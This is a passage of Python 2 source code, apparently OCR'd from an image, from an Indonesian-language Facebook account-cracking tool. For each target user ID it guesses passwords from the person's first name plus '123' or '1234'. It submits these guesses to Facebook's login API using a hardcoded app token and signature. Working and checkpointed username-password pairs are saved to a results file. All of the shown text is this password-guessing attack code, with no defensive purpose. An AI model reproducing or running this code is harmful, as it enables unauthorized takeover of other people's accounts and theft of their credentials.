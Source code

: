         ngetik('\r\033[37;1m{\033[32;1m*\033[37;1m} Mengambil ID ...')
    except KeyError:
        print '\033[37;1m{\033[31;1m!\033[37;1m} ID Post Invaled !'
        balik = raw_input('\n\033[32;1m[<Back>]')
        menu()

    print '\033[37;1m{\033[32;1m*\033[37;1m} Total ID : ' + str(len(id))
    print '\033[37;1m{\033[32;1m*\033[37;1m} CTRL+Z To Stop'

    def main(arg):
        sys.stdout.write(('\r{}').format(datetime.now().strftime('\x1b[1;96m%H\x1b[1;91m:\x1b[1;93m%M\x1b[1;91m:\x1b[1;92m%S')))
        sys.stdout.flush()
        jamet = arg
        try:
            os.mkdir('done')
        except OSError:
            pass

        try:
            an = requests.get('https://graph.facebook.com/' + jamet + '/?access_token=' + toke)
            j = json.loads(an.text)
            list1 = j['first_name'].lower() + '123'
            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + jamet + '&locale=en_US&password=' + list1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
            ko = json.load(data)
            if 'access_token' in ko:
                print ''
                print '\n\n\033[37;1m{\033[32;1m*\033[37;1m} SUCESS'
                print '\033[37;1m{\033[32;1m*\033[37;1m} Nama      ==> ' + j['name']
                print '\033[37;1m{\033[32;1m*\033[37;1m} User      ==> ' + jamet
                print '\033[37;1m{\033[32;1m*\033[37;1m} Password  ==> ' + list1
                print ''
                oke = open('done/group.txt', 'a')
                oke.write('\n\xe2\x9e\xa0 SUCESS \n\xe2\x9e\xa0 Nama     > ' + j['name'] + '\n\xe2\x9e\xa0 User     > ' + jamet + '\n\xe2\x9e\xa0 Password > ' + list1 + '\n')
                oke.close()
                oks.append(jamet)
            elif 'www.facebook.com' in ko['error_msg']:
                print ''
                print '\n\n\033[37;1m{\033[32;1m*\033[37;1m} CHEKPOINT'
                print '\033[37;1m{\033[32;1m*\033[37;1m} Nama      ==> ' + j['name']
                print '\033[37;1m{\033[32;1m*\033[37;1m} User      ==> ' + jamet
                print '\033[37;1m{\033[32;1m*\033[37;1m} Password  ==> ' + list1
                print ''
                cek = open('done/group.txt', 'a')
                cek.write('\n\xe2\x9e\xa0 CHEKPOINT \n\xe2\x9e\xa0 Nama     > ' + j['name'] + '\n\xe2\x9e\xa0 User     > ' + jamet + '\n\xe2\x9e\xa0 Password > ' + list1 + '\n')
                cek.close()
                cekpoint.append(jamet)
	    else:
		list2 = j['first_name'].lower() + '1234'
                data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + jamet + '&locale=en_US&password=' + list2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                ko = json.load(data)
                if 'access_token' in ko:
                    print ''
                    print '\n\n\033[37;1m{\033[32;1m*\033[37;1m} SUCESS'
                    print '\033[37;1m{\033[32;1m*\033[37;1m} Nama      ==> ' + j['name']
                    print '\033[37;1m{\033[32;1m*\033[37;1m} User      ==> ' + jamet
                    print '\033[37;1m{\033[32;1m*\033[37;1m} Password  ==> ' + list2
                    print ''
                    oke = open('done/group.txt', 'a')